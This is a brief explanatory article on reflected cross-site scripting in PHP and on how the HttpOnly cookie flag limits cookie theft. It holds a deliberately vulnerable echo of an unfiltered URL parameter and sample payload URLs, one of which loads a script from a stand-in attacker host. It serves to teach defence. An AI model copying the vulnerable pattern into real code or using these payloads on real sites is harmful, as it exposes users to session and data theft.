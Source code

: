 XSS vulnerability example:

```php
echo "The value you entered is: " . $_GET['val'];
```

So why is this an XSS vulnerability? The way the above code works is it grabs a value from the URL and writes it back to the browser, unvalidated and unfiltered. If your application is hosted at https://example.com/test.php a site visitor might visit the following URL:

`https://example.com/test.php?val=123`

They will then see: “The value you entered is: 123” output into their browser. Probably the way the application was designed to work.

If someone visits the following URL:

`https://example.com/test.php?val=<script>alert(‘Proof this is an XSS’);</script>`

They will see the following in the browser: “The value you entered is:” and they will also see an alert box pop up saying “Proof this is an XSS”.

### Why is unfiltered output dangerous?
When an analyst sends you an alert() box as proof of a security vulnerability, they are showing that they can execute arbitrary javascript code in the browser. What they are really demonstrating is that by sending that URL to someone else, they can get that other person to execute arbitrary javascript in a browser.

One version of an exploit might look something like this:

`https://example.com/test.php?val=<script src=”http://badsite.com/badscript.js”></script>`

The attacker will send that link to a victim and steals information from the victim's site.

The script will have full access to the browser DOM environment including any HTTP cookie not protected by the HttpOnly flag.

Before Internet Explorer version 6SP1, cookies were accessible both to web servers when a browser made a request, and to javascript. In other words, a script running in the browser on a particular website could simply read all cookies that the website had set.

This provided much flexibility to developers but also allowed malicious scripts to read cookie values and send them anywhere on the Internet. If an attacker was able to exploit an XSS vulnerability, the first thing they would do would be to steal any cookies they could read. This would allow them to gain instant administrative level access to websites if the victim was signed into the target website as an administrator.

Cookies included with the HttpOnly flag is not be readable by javascript

WordPress also uses the HttpOnly flag to protect cookies, which prevents an attacker exploiting an XSS vulnerability from stealing sensitive cookies.